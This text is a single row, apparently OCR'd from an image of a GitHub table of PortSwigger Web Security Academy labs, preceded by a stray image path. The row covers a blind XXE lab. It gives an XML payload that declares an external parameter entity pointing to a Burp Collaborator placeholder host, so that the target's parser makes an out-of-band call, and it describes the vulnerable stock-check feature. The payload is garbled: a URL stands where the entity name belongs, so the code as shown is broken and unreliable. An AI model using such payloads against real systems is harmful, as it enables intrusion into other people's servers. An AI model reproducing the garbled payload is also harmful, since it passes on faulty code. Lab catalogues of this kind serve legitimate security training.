 |70    |Blind XXE with out-of-band interaction via XML parameter entities                                                        |<!DOCTYPE stockCheck [<!ENTITY % https://portswigger.net/web-security/xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |"Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Practitioner, XXE                           |